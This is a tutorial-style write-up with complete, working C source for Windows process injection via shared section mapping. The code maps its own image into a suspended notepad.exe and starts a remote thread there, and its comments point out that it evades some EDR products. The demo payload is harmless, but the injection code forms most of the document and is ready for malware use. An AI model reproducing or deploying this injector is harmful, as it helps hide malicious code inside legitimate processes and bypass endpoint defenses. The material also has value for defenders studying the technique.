





# Process Injection - Shared Section Map
I don't know if this technique has a universal name.
I've seen "Zombify Process", "NtCreateSection + NtMapViewOfSection".
Shared Section Map is what I came up with. Makes sense to me.
## Concept
A section object is a section of memory that can be shared with other processes.
https://docs.microsoft.com/en-us/windows-hardware/drivers/kernel/section-objects-and-viewsThe concept behind this injection technique is to:
• create a section in your own process,
• and map a view of that section into the target process.
Now anything you change/modify/write to the section in your own process will also happen in the target process.
Because of this, you copy the PE you want to inject (yourself or another PE) into a section in your own process.
As a result, the PE will also be copied into the target process.
From there, you resume execution in the target process by:
• creating a new thread
• hijacking a thread
• etc.
## Examples
•
https://www.ired.team/offensive-security/code-injection-process-injection/ntcreatesection-+-ntmapviewofsection-code-injection•
https://github.com/MalwareTech/ZombifyProcess/blob/master/ZombieProcess/Main.cpp## Function Overview
1. Create or open a process
2.
NtCreateSection to create a section in your local (own) process
3. Create a section map in memory in your own process
NtMapViewOfSection4. Create a section map in memory in the target process
NtMapViewOfSection5. Copy the PE you want to inject into your local section map -
memcpy ◇ The section maps are mirrored, so the PE will also be written into the target's section map
7. Perform base relocations
8. Start execution in target process
1) RtlCreateUserThread (new thread)
2) Thread hijack
3) etc.
## Variations
If you're injecting yourself into the target process, you can start execution at a function.
An easy way to go about and think about this is by naming your function
RemoteMain() - i.e. this is the function that will run in the target process
int main(void)
{
SharedMemoryMapInject();
return 0;
}
// This function will run in the target process
int RemoteMain(void)
{
printf("hey :) i'm running the target process \n");
return 0;
}
• Inject self with RemoteMain + New Thread
• Inject self with RemoteMain + Hijack Thread
• Inject PE + New Thread
• Inject PE + Hijack Thread
• Inect Shellcode + New Thread
• Inject Shellcode + Hijack Thread
## Demo
First, our code creates the target process.
In this case,
notepad.exe.
Next, a read/write section map is created in our own process.
It's currently empty.
After that, a read/execute section map is created in the target process.
The map in the target is a map of our local process's section map.
Because our local section map is empty, the section map in the target is also empty.
Next we copy our PE into our local section map.
Because the section map in the target mirrors anything that happens to our local section map, the PE is also copied into the target (seen below. addresses are different because I messed up the screenshots).
With our PE inside the target, we can perform PE relocations and create a thread in the target to execute our desired function (in this case,
RemoteMain()).
We see that
notepad.exe isn't suspended anymore, and that our code has successfully run.
## Code
/*
Example of process injection via a shared section map & creating a new thread.
*/
#include <stdio.h>
#include <Windows.h>
#include <winternl.h>
typedef struct BASE_RELOCATION_ENTRY
{
USHORT Offset : 12;
USHORT Type : 4;
} BASE_RELOCATION_ENTRY, * PBASE_RELOCATION_ENTRY;
// NT TYPEDEFS ------------------------------
// for NtMapViewOfSection
typedef enum _SECTION_INHERIT {
ViewShare = 1,
ViewUnmap = 2
} SECTION_INHERIT, * PSECTION_INHERIT;
// for RtlCreateUserThread
typedef CLIENT_ID *PCLIENT_ID;
// Ntdll function typedefs
typedef NTSTATUS(WINAPI* t_NtCreateSection)(
PHANDLE SectionHandle,
ACCESS_MASK DesiredAccess,
POBJECT_ATTRIBUTES ObjectAttributes,
PLARGE_INTEGER MaximumSize,
ULONG SectionPageProtection,
ULONG AllocationAttributes,
HANDLE FileHandle
);
typedef NTSTATUS(WINAPI* t_NtMapViewOfSection)(
HANDLE SectionHandle,
HANDLE ProcessHandle,
PVOID* BaseAddress,
ULONG_PTR ZeroBits,
SIZE_T CommitSize,
PLARGE_INTEGER SectionOffset,
PSIZE_T ViewSize,
SECTION_INHERIT InheritDisposition,
ULONG AllocationType,
ULONG Win32Protect
);
typedef NTSTATUS(WINAPI* t_NtUnmapViewOfSection)(
HANDLE ProcessHandle,
PVOID BaseAddress
);
typedef NTSTATUS(WINAPI* t_NtQueryInformationProcess)(
IN HANDLE ProcessHandle,
IN PROCESSINFOCLASS ProcessInformationClass,
OUT PVOID ProcessInformation,
IN ULONG ProcessInformationLength,
OUT PULONG ReturnLength
);
typedef NTSTATUS(WINAPI* t_NtClose)(
IN HANDLE Handle
);
typedef NTSTATUS(WINAPI* t_RtlCreateUserThread)(
IN HANDLE ProcessHandle,
IN PSECURITY_DESCRIPTOR SecurityDescriptor OPTIONAL,
IN BOOLEAN CreateSuspended,
IN ULONG StackZeroBits,
IN OUT PULONG StackReserved,
IN OUT PULONG StackCommit,
IN PVOID StartAddress,
IN PVOID StartParameter OPTIONAL,
OUT PHANDLE ThreadHandle,
OUT PCLIENT_ID ClientID
);
// My Ntdll functions
t_NtCreateSection d_NtCreateSection;
t_NtMapViewOfSection d_NtMapViewOfSection;
t_NtUnmapViewOfSection d_NtUnmapViewOfSection;
t_NtQueryInformationProcess d_NtQueryInformationProcess;
t_NtClose d_NtClose;
t_RtlCreateUserThread d_RtlCreateUserThread;
int resolveNtFunctions()
{
HMODULE hNtdll = GetModuleHandleW(L"Ntdll.dll");
d_NtCreateSection = (t_NtCreateSection)GetProcAddress(hNtdll, "NtCreateSection");
if (d_NtCreateSection == NULL)
return 1;
d_NtMapViewOfSection = (t_NtMapViewOfSection)GetProcAddress(hNtdll, "NtMapViewOfSection");
if (d_NtCreateSection == NULL)
return 2;
d_NtUnmapViewOfSection = (t_NtUnmapViewOfSection)GetProcAddress(hNtdll, "NtUnmapViewOfSection");
if (d_NtCreateSection == NULL)
return 3;
d_NtClose = (t_NtClose)GetProcAddress(hNtdll, "NtClose");
if (d_NtCreateSection == NULL)
return 4;
d_NtQueryInformationProcess = (t_NtQueryInformationProcess)GetProcAddress(hNtdll, "NtQueryInformationProcess");
if (d_NtCreateSection == NULL)
return 5;
d_RtlCreateUserThread = (t_RtlCreateUserThread)GetProcAddress(hNtdll, "RtlCreateUserThread");
if (d_NtCreateSection == NULL)
return 6;
return 0;
}
int RemoteMain()
{
MessageBoxW(NULL, L"hello from target process", L"title :)", MB_OK);
ExitProcess(0); // close injected application after code has finished executing
return 0;
}
int relocatePE_32(LPVOID sourceBase, LPVOID targetBase)
{
DWORD delta = 0;
PIMAGE_DOS_HEADER local_DosHeader;
PIMAGE_NT_HEADERS local_NtHeader;
PIMAGE_BASE_RELOCATION local_RelocTable;
PIMAGE_BASE_RELOCATION relocBlock;
DWORD relocTable_Size;
printf("[*] performing relocations \n");
// calculate difference in base addresses
printf("\t source base: 0x%p \n", (LPVOID)sourceBase);
printf("\t target base: 0x%p \n", (LPVOID)targetBase);
delta = (DWORD)targetBase - (DWORD)sourceBase;
printf("\t delta: 0x%p \n", (LPVOID)delta);
if (delta == 0)
{
printf("\t deltas are the same. no relocations needed \n");
return 0;
}
// grab relocation table
local_DosHeader = (PIMAGE_DOS_HEADER)sourceBase;
local_NtHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)sourceBase + (DWORD_PTR)local_DosHeader->e_lfanew);
local_RelocTable = (PIMAGE_BASE_RELOCATION)((DWORD_PTR)sourceBase + (DWORD_PTR)local_NtHeader->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BASERELOC].VirtualAddress);
relocTable_Size = local_NtHeader->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BASERELOC].Size;
printf(" reloc table: \n");
printf("\t offset: 0x%p \n", (LPVOID)local_NtHeader->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BASERELOC].VirtualAddress);
printf("\t address: 0x%p \n", (LPVOID)local_RelocTable);
printf("\t size: 0x%x \n\n", relocTable_Size);
// grab first relocation block
// first relocation block is at same address as relocation table
relocBlock = local_RelocTable;
// loop through relocation table
DWORD blockNumber = 1;
DWORD entryCount = 0;
DWORD relocTable_Position = 0;
DWORD relocTable_End = relocTable_Size;
while (relocTable_Position < relocTable_End)
{
// read block info
printf("\t block #%d \n", blockNumber);
printf("\t\t rva: 0x%p \n", (LPVOID)relocBlock->VirtualAddress);
printf("\t\t size: 0x%x \n", relocBlock->SizeOfBlock);
entryCount = (relocBlock->SizeOfBlock - sizeof(IMAGE_BASE_RELOCATION)) / sizeof(WORD);
printf("\t\t entries: %d \n", entryCount);
// grab first relocation entry in block
PBASE_RELOCATION_ENTRY relocEntry = (PBASE_RELOCATION_ENTRY)(relocBlock + 1);
// loop through entries in block
for (DWORD i = 0; i < entryCount; i++)
{
// read original entry
PDWORD relocAddr = (LPVOID)((DWORD)sourceBase + relocBlock->VirtualAddress + relocEntry->Offset);
printf("\t\t\t reloc addr: 0x%p ", (LPVOID)relocAddr);
printf("value: 0x%p ", (LPVOID)*relocAddr);
// only relocate if type is HIGHLOW (for x86)
if (relocEntry->Type == IMAGE_REL_BASED_HIGHLOW)
{
// calculate modified value
DWORD modifiedValue = *relocAddr + delta; // modifiedValue = data @ relocAddr + delta;
// overwrite orignial value with modified value
*relocAddr = modifiedValue;
printf("modified value: 0x%p \n", (LPVOID)*relocAddr);
}
else if (relocEntry->Type == IMAGE_REL_BASED_ABSOLUTE)
{
printf("type: ASBOLUTE - skipping relocation \n");
}
else
{
printf("type: %d (unsupported) - skipping relocation \n", relocEntry->Type);
}
// advance to next entry
relocEntry += 1;
}
// advance to next block
blockNumber += 1;
relocTable_Position += relocBlock->SizeOfBlock;
relocBlock = (PIMAGE_BASE_RELOCATION)((DWORD64)relocBlock + relocBlock->SizeOfBlock);
}
return 0;
}
int relocatePE_64(LPVOID sourceBase, LPVOID targetBase)
{
DWORD64 delta = 0;
PIMAGE_DOS_HEADER local_DosHeader;
PIMAGE_NT_HEADERS local_NtHeader;
PIMAGE_BASE_RELOCATION local_RelocTable;
PIMAGE_BASE_RELOCATION relocBlock;
DWORD relocTable_Size;
printf("[*] performing relocations \n");
// calculate difference in base addresses
printf("\t source base: 0x%p \n", (LPVOID)sourceBase);
printf("\t target base: 0x%p \n", (LPVOID)targetBase);
delta = (DWORD64)targetBase - (DWORD64)sourceBase;
printf("\t delta: 0x%p \n", (LPVOID)delta);
if (delta == 0)
{
printf("\t deltas are the same. no relocations needed \n");
return 0;
}
// grab relocation table
local_DosHeader = (PIMAGE_DOS_HEADER)sourceBase;
local_NtHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)sourceBase + (DWORD_PTR)local_DosHeader->e_lfanew);
local_RelocTable = (PIMAGE_BASE_RELOCATION)((DWORD_PTR)sourceBase + (DWORD_PTR)local_NtHeader->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BASERELOC].VirtualAddress);
relocTable_Size = local_NtHeader->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BASERELOC].Size;
printf(" reloc table: \n");
printf("\t offset: 0x%p \n", (LPVOID)local_NtHeader->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BASERELOC].VirtualAddress);
printf("\t address: 0x%p \n", (LPVOID)local_RelocTable);
printf("\t size: 0x%x \n\n", relocTable_Size);
// grab first relocation block
// first relocation block is at same address as relocation table
relocBlock = local_RelocTable;
// loop through relocation table
DWORD blockNumber = 1;
DWORD entryCount = 0;
DWORD relocTable_Position = 0;
DWORD relocTable_End = relocTable_Size;
while (relocTable_Position < relocTable_End)
{
// read block info
printf("\t block #%d \n", blockNumber);
printf("\t\t rva: 0x%p \n", (LPVOID)relocBlock->VirtualAddress);
printf("\t\t size: 0x%x \n", relocBlock->SizeOfBlock);
entryCount = (relocBlock->SizeOfBlock - sizeof(IMAGE_BASE_RELOCATION)) / sizeof(WORD);
printf("\t\t entries: %d \n", entryCount);
// grab first relocation entry in block
PBASE_RELOCATION_ENTRY relocEntry = (PBASE_RELOCATION_ENTRY)(relocBlock + 1);
// loop through entries in block
for (DWORD i = 0; i < entryCount; i++)
{
// read original entry
PDWORD64 relocAddr = (LPVOID)((DWORD64)sourceBase + relocBlock->VirtualAddress + relocEntry->Offset);
printf("\t\t\t reloc addr: 0x%p ", (LPVOID)relocAddr);
printf("value: 0x%p ", (LPVOID)*relocAddr);
// only relocate if type is DIR64 (for x64)
if (relocEntry->Type == IMAGE_REL_BASED_DIR64)
{
// calculate modified value
DWORD64 modifiedValue = *relocAddr + delta; // modifiedValue = data @ relocAddr + delta;
// overwrite orignial value with modified value
*relocAddr = modifiedValue;
printf("modified value: 0x%p \n", (LPVOID)*relocAddr);
}
else if (relocEntry->Type == IMAGE_REL_BASED_ABSOLUTE)
{
printf("type: ASBOLUTE - skipping relocation \n");
}
else
{
printf("type: %d (unsupported) - skipping relocation \n", relocEntry->Type);
}
// advance to next entry
relocEntry += 1;
}
// advance to next block
blockNumber += 1;
relocTable_Position += relocBlock->SizeOfBlock;
relocBlock = (PIMAGE_BASE_RELOCATION)((DWORD64)relocBlock + relocBlock->SizeOfBlock);
}
return 0;
}
/*
Inject code into a target process via a shared section map.
This variation injects itself (this PE) and starts exeuction at RemoteMain() with a new thread.
x86 debug doesn't work (app crash?/Werfault.exe- 0xc0000005).
x64 debug & release work.
Parmeters:
target_Path - the target process to spawn & inject into
Returns:
1 on failure.
0 on success.
*/
int InjectSelf_SharedSectionMap_NewThread(wchar_t target_Path[])
{
NTSTATUS ntStatus;
STARTUPINFOW target_si = { 0 };
PROCESS_INFORMATION target_pi = { 0 };
LPVOID target_SectionAddr = NULL;
LPVOID local_BaseAddress;
LPVOID local_SectionAddr = NULL;
PIMAGE_DOS_HEADER local_DosHeader;
PIMAGE_NT_HEADERS local_NtHeader;
HANDLE local_SectionHandle = NULL;
LARGE_INTEGER local_SectionSize = { 0 };
SIZE_T mappedView_Size = 0;
// create target process
CreateProcessW(NULL, target_Path, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &target_si, &target_pi);
printf("[*] target process created: \"%S\" \n", target_Path);
// grab our own base address & image size
local_BaseAddress = (LPVOID)GetModuleHandleW(NULL);
local_DosHeader = (PIMAGE_DOS_HEADER)local_BaseAddress;
local_NtHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)local_BaseAddress + local_DosHeader->e_lfanew);
local_SectionSize.LowPart = local_NtHeader->OptionalHeader.SizeOfImage;
// create new section in our own process
ntStatus = d_NtCreateSection(&local_SectionHandle, SECTION_MAP_READ | SECTION_MAP_WRITE | SECTION_MAP_EXECUTE, NULL, &local_SectionSize, PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL);
if (NT_SUCCESS(ntStatus) != TRUE)
{
printf("[-] failed to create new section in local process \n");
return 1;
}
printf("[*] new section created in local process \n");
printf("\t size: %d \n", local_SectionSize.LowPart);
// create a section view in our own process
// r/w permissions are set in the local section because we don't need to execute code here
ntStatus = d_NtMapViewOfSection(local_SectionHandle, GetCurrentProcess(), &local_SectionAddr, 0, 0, 0, &mappedView_Size, ViewUnmap, 0, PAGE_READWRITE);
if (NT_SUCCESS(ntStatus) != TRUE)
{
printf("[-] failed to map view of section in local process \n");
return 1;
}
printf("\t mapped r/w view in local process @ 0x%p \n", local_SectionAddr);
// create a section view (of the section view in our own process) in the target process
// now any changes to the section view in our own process will also happen to the section view in the target process
// r/x permissions set in target process, which evades some EDRs that dont' like r/w/x permissions
ntStatus = d_NtMapViewOfSection(local_SectionHandle, target_pi.hProcess, &target_SectionAddr, 0, 0, 0, &mappedView_Size, ViewUnmap, 0, PAGE_EXECUTE_READ);
if (NT_SUCCESS(ntStatus) != TRUE)
{
printf("[-] failed to map view of section in target process \n");
return 1;
}
printf("\t mapped r/x view in target process @ 0x%p \n", target_SectionAddr);
// copy ourself (this PE) into the local section
// (because we changed the section view in our own process, this PE will also be copied into the target process as well)
memcpy(local_SectionAddr, local_BaseAddress, local_NtHeader->OptionalHeader.SizeOfImage);
printf("\t copied self into local @ 0x%p \n", local_SectionAddr);
printf("\t mirror of self in target @ 0x%p \n", target_SectionAddr);
// perform base relocations
#ifdef _WIN64
relocatePE_64(local_SectionAddr, target_SectionAddr);
#else
relocatePE_32(local_SectionAddr, target_SectionAddr);
#endif
// calculate address of RemoteMain()
DWORD_PTR RemoteMain_Offset = (DWORD_PTR)&RemoteMain - (DWORD_PTR)local_BaseAddress;
LPVOID localSection_RemoteMain = (LPVOID)((DWORD_PTR)local_SectionAddr + RemoteMain_Offset);
LPVOID targetSection_RemoteMain = (LPVOID)((DWORD_PTR)target_SectionAddr + RemoteMain_Offset);
printf("[*] RemoteMain \n");
printf("\t offset: 0x%p \n", (LPVOID)RemoteMain_Offset);
printf("\t in local: 0x%p \n", localSection_RemoteMain);
printf("\t in target: 0x%p \n", targetSection_RemoteMain);
printf("[*] starting remote thread in target @ 0x%p \n", targetSection_RemoteMain);
// create new thread in target process that executes RemoteMain
HANDLE target_SectionThread = NULL;
ntStatus = d_RtlCreateUserThread(target_pi.hProcess, NULL, FALSE, 0, 0, 0, targetSection_RemoteMain, NULL, target_SectionThread, NULL);
if (NT_SUCCESS(ntStatus) != TRUE)
{
printf("[-] failed to create thread in target process \n");
return 1;
}
/*
If execution fails,
you should unmap section from the target process and local process and terminate the target process.
*/
// clean up
CloseHandle(target_pi.hProcess);
CloseHandle(target_pi.hThread);
return 0;
}
int main()
{
int iRet = resolveNtFunctions();
if (iRet != 0)
{
printf("[-] failed to resolve NT function: %d \n", iRet);
return 1;
}
printf("[*] resolved NT imports \n");
wchar_t target_Path[] = L"notepad.exe";
InjectSelf_SharedSectionMap_NewThread(target_Path);
return 0;
}